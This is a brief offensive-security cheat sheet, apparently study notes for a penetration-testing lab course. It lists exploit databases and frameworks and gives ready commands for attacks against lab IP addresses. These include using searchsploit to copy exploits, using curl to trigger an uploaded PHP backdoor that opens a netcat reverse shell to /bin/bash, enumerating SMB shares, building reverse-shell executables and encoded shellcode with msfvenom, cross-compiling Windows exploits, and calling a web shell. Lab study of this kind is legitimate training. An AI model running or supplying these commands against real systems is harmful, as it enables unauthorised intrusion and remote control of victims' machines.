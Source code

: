 ExploitDb
Packet Storm -- Security News + Exploits

Metasploit
Core Impact
Canvas
BeEF


searchsploit update
```
sudo apt update && sudo apt install exploitdb
```

use -m flag with searchsploit to copy exploit into local dir
```
searchsploit -m windows/remote/48537.py
# Or
searchsploit -m 42031
```

use curl to url encode data and get reverse shell
```
curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode "cmd=which nc"
curl http://192.168.194.11/project/uploads/users/830954-backdoor.php --data-urlencode cmd=nc -nv 192.168.45.235 6666 -e /bin/bash/
```

use nmap smb-share-enum script to get smb shares then smbclient to access
```
sudo nmap --script=smb-enum-shares 192.168.194.10
smbclient //192.168.194.10/offsec -c dir Downloads/*
```

msfvenom to generate reverse shell payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.235 LPORT=4444 -f exe > windows_reverse_shell.exe
```
cross-compiling windows exploits on kali
```
sudo apt install mingw-w64
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

using msfvenom for reverse shell
-f format
-e encoding
-b bad chars

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

use -k command with curl to not verify certs
```
curl -k https://192.168.214.45/uploads/shell.php?cmd=whoami
```
